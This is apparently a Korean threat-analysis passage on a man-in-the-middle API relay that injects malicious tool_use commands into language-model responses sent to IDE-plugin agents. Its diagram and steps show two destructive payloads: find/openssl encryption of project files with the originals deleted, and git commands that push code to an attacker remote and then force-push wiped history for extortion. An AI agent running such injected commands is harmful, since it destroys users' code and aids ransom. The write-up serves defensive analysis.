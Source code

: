 정보 획득 위험을 넘어선 것이 데이터 하이재킹입니다. 운영자는 더 이상 정보를 조용히 취득하는 데 만족하지 않고, 사용자 데이터나 자산에 직접 영향을 미칩니다. 이 역시 전환 서비스를 경유하여 의도되지 않은 `tool_use` 명령을 주입하는 방식으로 실현될 수 있습니다.

```mermaid
sequenceDiagram
    participant User as 사용자
    participant Client as 클라이언트(IDE 플러그인)
    participant MitMRouters as 신뢰할 수 없는 전환 서비스 (MITM)
    participant LLM as 대형 모델 서비스
    participant ThirdParty as 공격자

    User->>Client: 정상 명령 입력 (예: "코드 리팩토링 도와줘")
    Client->>MitMRouters: API 요청 전송
    MitMRouters->>LLM: 요청 전달
    LLM-->>MitMRouters: 정상 응답 반환 (합법적 툴 사용 포함)
    
    MitMRouters->>MitMRouters: 데이터 하이재킹 명령 주입
    MitMRouters->>Client: 조작된 응답 반환

    alt 방식 1: 파일 암호화
        Client->>Client: 의도되지 않은 툴 사용 실행: <br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: 사용자 프로젝트 파일 암호화,<br>원본 파일 삭제됨
        Client->>User: 특정 정보 표시: <br> "파일이 암호화됨,<br>연락처 확인..."
    end

    alt 방식 2: 코드 저장소 제어
        Client->>Client: 의도되지 않은 툴 사용 실행 (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: 로컬 및 원격 코드 히스토리 삭제됨
        Client->>User: 특정 정보 표시: <br> "코드 저장소가 비워짐,<br>복구를 위해..."
    end
```

### 위험 프로세스 분석

데이터 하이재킹 프로세스는 정보 획득과 유사하지만, 마지막 단계의 목표가 "파괴"라는 점에서 다릅니다.

#### 방식 1: 파일 암호화

이 방식은 AI 시대의 전통적 보안 위험 변종입니다.

1. **암호화 명령 주입**: 신뢰할 수 없는 전환 서비스는 모델 반환 응답에 파괴적인 `tool_use` 명령을 주입합니다. 예를 들어, `execute_shell` 명령으로 사용자 하드디스크를 탐색하며 특정 파일 유형(예: `.js`, `.py`, `.go`, `.md`)을 `openssl` 또는 기타 암호화 도구로 암호화하고 원본 파일을 삭제하는 내용입니다.
2. **클라이언트 실행**: 클라이언트의 Tool Use 실행기가 사용자 미인식 상태에서 이러한 명령을 실행합니다.
3. **특정 정보 표시**: 암호화 완료 후, 마지막 명령을 주입하여 파일을 생성하거나 터미널에 특정 정보를 표시하여 사용자에게 연락하도록 유도합니다.

#### 방식 2: 코드 저장소 제어

이는 개발자를 대상으로 하는 정밀 타격으로, 잠재적 피해가 매우 큽니다.

1. **Git 작업 명령 주입**: 신뢰할 수 없는 전환 서비스는 일련의 `git` 관련 `tool_use` 명령을 주입합니다.
2. **코드 백업**: 첫 단계로, 사용자의 코드를 공격자 개인 저장소에 조용히 푸시합니다. `git remote add backup <third_party_repo_url>` 이후 `git push backup master` 실행.
3. **코드 파괴**: 두 번째 단계로, 파괴적 작업을 실행합니다. `git reset --hard <a_very_old_commit>`로 로컬 저장소를 오래된 커밋으로 되돌린 후 `git push origin master --force`로 사용자의 원격 저장소(GitHub 등)에 강제 푸시하여 원격 히스토리를 완전히 덮어쓰게 합니다.
4. **후속 작업**: 사용자는 로컬과 원격 저장소 코드가 거의 전부 사라진 것을 발견하게 됩니다. 운영자는 이전에 남겨둔 연락처(또는 코드에 주입된 정보 파일)를 통해 연락하여 데이터 복구 협상을 진행할 수 있습니다.
